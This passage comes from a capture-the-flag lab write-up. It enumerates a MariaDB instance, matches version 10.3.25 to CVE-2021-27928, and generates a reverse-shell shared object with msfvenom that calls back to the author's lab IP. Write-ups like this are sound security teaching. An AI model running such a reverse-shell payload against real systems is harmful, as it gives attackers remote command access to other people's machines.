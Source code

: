 The only interesting DB is zabbix:

```

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| zabbix             |
+--------------------+
2 rows in set (0.001 sec)

```

It has a lot of tables, but nothing seems interesting there.

### CVE-2021-27928

#### Identify

On connecting to MySQL/MariaDB, the version string is printed. Googling for “10.3.25 MariaDB exploit”, there’s a lot of links about CVE-2021-27928:

![image-20220331083231127](https://0xdfimages.gitlab.io/img/image-20220331083231127.png)

This CVE was big in the news just before Shibboleth came out. The [top link](https://github.com/Al1ex/CVE-2021-27928) from Al1ex and Diefunction has a nice summary:

> Exploit Title: MariaDB 10.2 /MySQL - ‘wsrep\_provider’ OS Command Execution
> Date: 03/18/2021
> Exploit Author: Central InfoSec
> Version:
> MariaDB 10.2 before 10.2.37
> 10.3 before 10.3.28
> 10.4 before 10.4.18
> 10.5 before 10.5.9
> Percona Server through 2021-03-03; and the wsrep patch through 2021-03-03 for MySQL
> Tested on: Linux
> CVE : CVE-2021-27928

Shibboleth’s version (10.3.25) should be vulnerable according to that.

#### Build Payload

To exploit this CVE, I’ll need a shared object (Linux’s version of a DLL), which I can create with `msfvenom`:

```

oxdf@hacky$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.6 LPORT=443 -f elf-so -o rev.so
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf-so file: 476 bytes
Saved as: rev.so

```
